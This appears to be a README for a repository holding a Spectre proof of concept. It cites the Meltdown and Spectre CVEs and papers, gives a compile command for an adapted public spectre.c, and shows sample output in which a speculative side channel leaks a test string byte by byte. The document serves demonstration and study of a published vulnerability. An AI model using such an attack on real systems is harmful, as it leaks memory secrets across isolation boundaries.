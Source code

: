 # meltdown_specre

# Meltdown
CVE-2017-5754 is the official reference to Meltdown. 
https://meltdownattack.com/meltdown.pdf

# Specre
CVE-2017-5753 and CVE-2017-5715 are the official references to Spectre.
https://spectreattack.com/spectre.pdf

To Compile on ubuntu 16.04

    # gcc spectre.c -o specre
 
Thank you to https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6 for this code.  I modified it to work on ubuntu-xenial-16.04-amd64-server-20170721 (ami-cd0f5cb6)
    
# Sample Output

    root@brakerubuntu:/tmp/src]# ./specre
    Reading 40 bytes:
    Reading at malicious_x = 0xffffffffffdfebb8... Success: 0x54=’T’ score=2
    Reading at malicious_x = 0xffffffffffdfebb9... Success: 0x68=’h’ score=2
    Reading at malicious_x = 0xffffffffffdfebba... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebbb... Success: 0x20=’ ’ score=7 (second best: 0xDE score=1)
    Reading at malicious_x = 0xffffffffffdfebbc... Success: 0x4D=’M’ score=2
    Reading at malicious_x = 0xffffffffffdfebbd... Success: 0x61=’a’ score=2
    Reading at malicious_x = 0xffffffffffdfebbe... Success: 0x67=’g’ score=2
    Reading at malicious_x = 0xffffffffffdfebbf... Success: 0x69=’i’ score=2
    Reading at malicious_x = 0xffffffffffdfebc0... Success: 0x63=’c’ score=2
    Reading at malicious_x = 0xffffffffffdfebc1... Success: 0x20=’ ’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc2... Success: 0x57=’W’ score=2
    Reading at malicious_x = 0xffffffffffdfebc3... Success: 0x6F=’o’ score=2
    Reading at malicious_x = 0xffffffffffdfebc4... Success: 0x72=’r’ score=2
    Reading at malicious_x = 0xffffffffffdfebc5... Success: 0x64=’d’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc6... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebc7... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebc8... Success: 0x61=’a’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc9... Success: 0x72=’r’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebca... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebcb... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebcc... Success: 0x53=’S’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebcd... Success: 0x71=’q’ score=2
    Reading at malicious_x = 0xffffffffffdfebce... Success: 0x75=’u’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebcf... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebd0... Success: 0x61=’a’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd1... Success: 0x6D=’m’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebd2... Success: 0x69=’i’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd3... Success: 0x73=’s’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebd4... Success: 0x68=’h’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd5... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebd6... Success: 0x4F=’O’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd7... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebd8... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebd9... Success: 0x69=’i’ score=2
    Reading at malicious_x = 0xffffffffffdfebda... Success: 0x66=’f’ score=2
    Reading at malicious_x = 0xffffffffffdfebdb... Success: 0x72=’r’ score=2
    Reading at malicious_x = 0xffffffffffdfebdc... Success: 0x61=’a’ score=2
    Reading at malicious_x = 0xffffffffffdfebdd... Success: 0x67=’g’ score=2
    Reading at malicious_x = 0xffffffffffdfebde... Success: 0x65=’e’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebdf... Success: 0x2E=’.’ score=2
